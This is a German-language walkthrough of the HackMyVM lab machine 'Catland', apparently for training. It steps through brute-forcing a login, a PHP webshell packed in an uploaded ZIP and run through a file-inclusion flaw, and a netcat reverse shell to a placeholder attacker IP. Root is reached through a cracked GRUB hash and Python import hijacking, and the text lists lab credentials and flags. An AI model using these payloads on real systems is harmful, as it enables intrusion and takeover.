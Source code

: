 # Catland - HackMyVM Lösungsweg

![Catland VM Icon](Catland.png)

Dieses Repository enthält einen Lösungsweg (Walkthrough) für die HackMyVM-Maschine "Catland".

## Details zur Maschine & zum Writeup

*   **VM-Name:** Catland
*   **VM-Autor:** DarkSpirit
*   **Plattform:** HackMyVM
*   **Schwierigkeitsgrad (laut Writeup):** Mittel (Medium)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Catland](https://hackmyvm.eu/machines/machine.php?vm=Catland)
*   **Autor des Writeups:** DarkSpirit
*   **Original-Link zum Writeup:** [https://alientec1908.github.io/Catland_HackMyVM_Medium/](https://alientec1908.github.io/Catland_HackMyVM_Medium/)
*   **Datum des Originalberichts:** 10. April 2023

## Verwendete Tools (Auswahl)

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `exiftool`
*   `steghide`
*   `stegsnow`
*   `stegseek`
*   `wfuzz`
*   `nikto`
*   `vi` / `nano`
*   `curl`
*   `cupp`
*   `hydra`
*   `cat`
*   `cp`
*   `zip` (impliziert)
*   `nc` (netcat)
*   `python3`
*   `stty`
*   `sudo`
*   `find`
*   `ss`
*   `mysql` (Client)
*   `grep`
*   `john` (John the Ripper)
*   `ssh`

## Zusammenfassung des Lösungswegs

Das Folgende ist eine gekürzte Version der Schritte, die unternommen wurden, um die Maschine zu kompromittieren, basierend auf dem bereitgestellten Writeup.

### 1. Reconnaissance (Aufklärung)

*   Die Ziel-IP `192.168.2.126` wurde mittels `arp-scan -l` identifiziert.
*   Der Hostname `catland.hmv` wurde der IP `192.168.2.126` in der `/etc/hosts`-Datei des Angreifers zugeordnet (impliziert).
*   Ein `nmap`-Scan ergab offene Ports:
    *   **Port 22/tcp (SSH):** OpenSSH 8.4p1 Debian 5+deb11u1.
    *   **Port 80/tcp (HTTP):** Apache httpd 2.4.54 ((Debian)). Titel der Seite: "Catland".

### 2. Web Enumeration

*   `gobuster` fand `index.php`, Bilddateien (`logo.jpeg`, `logo.png`), das Verzeichnis `/images` und `gallery.php`.
*   Steganographie-Versuche auf `logo.jpeg` und `laura-with-cat.jpeg` (gefunden im `/images`-Verzeichnis) mit `exiftool`, `steghide`, `stegsnow`, `stegseek` waren erfolglos.
*   `wfuzz` zur Parameter-Fuzzing auf `index.php` und `gallery.php` brachte keine direkten Ergebnisse.
*   `nikto` fand fehlende Security-Header und Verzeichnisauflistung für `/images/`.
*   **Subdomain Enumeration mit `wfuzz`:**
    *   Der Host-Header wurde gefuzzt (`Host: FUZZ.catland.hmv`).
    *   Die Subdomain **`admin.catland.hmv`** wurde entdeckt.
*   **Admin Panel Enumeration (`admin.catland.hmv`):**
    *   Die Subdomain wurde zur `/etc/hosts`-Datei hinzugefügt.
    *   `curl http://admin.catland.hmv/` zeigte ein Login-Formular. Ein `redirect.js` versuchte, nicht eingeloggte Benutzer umzuleiten.
    *   `curl http://admin.catland.hmv/index.phps` (Versuch, Quellcode zu lesen) schlug fehl (403).

### 3. Initial Access als `www-data`

1.  **Benutzername `laura` gefunden:**
    *   Basierend auf dem Dateinamen `laura-with-cat.jpeg` wurde der Benutzername `laura` vermutet.
    *   `cupp -i` wurde verwendet, um eine Passwortliste (`laura.txt`) basierend auf dem Namen "laura" zu erstellen.
2.  **Passwort für `laura` im Admin-Panel gefunden:**
    *   `hydra` wurde gegen das Login-Formular auf `admin.catland.hmv` mit dem Benutzer `laura` und der Liste `laura.txt` eingesetzt.
    *   Das Passwort **`Laura_2008`** wurde gefunden.
3.  **LFI-Schwachstelle und ZIP-Upload:**
    *   Nach dem Login als `laura:Laura_2008` wurde eine Upload-Funktion (`/upload.php`) entdeckt, die nur ZIP- oder RAR-Dateien akzeptierte.
    *   Auf der Seite `/user.php` wurde eine **Local File Inclusion (LFI)**-Schwachstelle im `page`-Parameter entdeckt (`user.php?page=/etc/passwd` zeigte den Inhalt).
4.  **Remote Code Execution (RCE) via LFI und ZIP-Upload:**
    *   Eine einfache PHP-Webshell (`<?php system($_GET['cmd']); ?>`) wurde erstellt (`shell.php`) und in eine ZIP-Datei (`shell.zip`) gepackt.
    *   Die `shell.zip` wurde über `/upload.php` hochgeladen (vermutlich in ein Verzeichnis wie `./uploads/`).
    *   Die LFI wurde genutzt, um die Shell innerhalb der ZIP auszuführen (PHP kann ZIP-Dateien über Wrapper wie `phar://` interpretieren, oder es gab eine serverseitige Verarbeitung):
        `http://admin.catland.hmv/user.php?page=./uploads/shell.zip&cmd=ls` zeigte bereits eine Befehlsausgabe.
5.  **Reverse Shell als `www-data`:**
    *   Ein Netcat-Listener wurde auf dem Angreifer-System gestartet.
    *   Über die LFI-RCE wurde ein Netcat-Reverse-Shell-Befehl ausgeführt:
        `http://admin.catland.hmv/user.php?page=./uploads/shell.zip&cmd=nc%20-e%20/bin/bash%20ANGREIFER_IP%209001`
    *   Shell als `www-data` auf `catland` wurde erlangt und stabilisiert.

### 4. Privilege Escalation

1.  **Enumeration als `www-data`:**
    *   `sudo -l` erforderte ein Passwort. Standard-SUID-Dateien wurden gefunden.
    *   MySQL lief lokal auf Port 3306.
    *   Die Datei `/var/www/admin/config.php` enthielt Datenbank-Credentials: `admin:catlandpassword123` für die Datenbank `catland`.
    *   Login in die MySQL-Datenbank `catland` mit diesen Credentials.
    *   Die Tabelle `users` bestätigte `laura:Laura_2008`. Die Tabelle `comment` enthielt den Hinweis: "change grub password".
    *   Die GRUB-Konfigurationsdatei (`/boot/grub/grub.cfg`) enthielt einen PBKDF2-Passwort-Hash für `root`:
        `grub.pbkdf2.sha512.10000.CAEB...`
2.  **GRUB-Hash knacken und SSH-Login als `laura`:**
    *   Der GRUB-Hash wurde offline mit `john --wordlist=/usr/share/wordlists/rockyou.txt` geknackt. Das Passwort war **`berbatov`**.
    *   Dieses Passwort wurde erfolgreich für den SSH-Login des Benutzers `laura` verwendet: `ssh laura@catland.hmv`.
3.  **Enumeration als `laura`:**
    *   Die `user.txt` wurde im Home-Verzeichnis von `laura` gefunden und gelesen.
    *   `sudo -l` für `laura` zeigte: `(ALL : ALL) NOPASSWD: /usr/bin/rtv --help`.
    *   Das Skript `/usr/bin/rtv` (Python3) importierte `importlib.metadata`.
    *   Die Datei `/usr/lib/python3.9/importlib/metadata.py` war **für alle Benutzer schreibbar (`-rw-r--rw-`)**.
4.  **Privilege Escalation zu `root` via Python Import Hijacking:**
    *   Die Datei `/usr/lib/python3.9/importlib/metadata.py` wurde bearbeitet und der Code `import os; os.system('/bin/bash -i')` hinzugefügt.
    *   Der erlaubte `sudo`-Befehl wurde ausgeführt: `sudo rtv --help`.
    *   Da `rtv` die modifizierte `metadata.py` importierte, wurde der eingefügte Code mit Root-Rechten ausgeführt.
    *   Eine interaktive Root-Shell wurde erhalten.

### 5. Flags

*   **User-Flag (`/home/laura/user.txt`):**
    ```
    933ff8025e8944b6b3b797b2f006b2c0
    ```
*   **Root-Flag (`/root/root.txt`):**
    ```
    ca555fc5afb4475bb0878d2b1a76cbe9
    ```

## Haftungsausschluss (Disclaimer)

Dieser Lösungsweg dient zu Bildungszwecken und zur Dokumentation der Lösung für die "Catland" HackMyVM-Maschine. Die Informationen sollten nur in ethischen und legalen Kontexten verwendet werden, wie z.B. bei CTFs und autorisierten Penetrationstests.

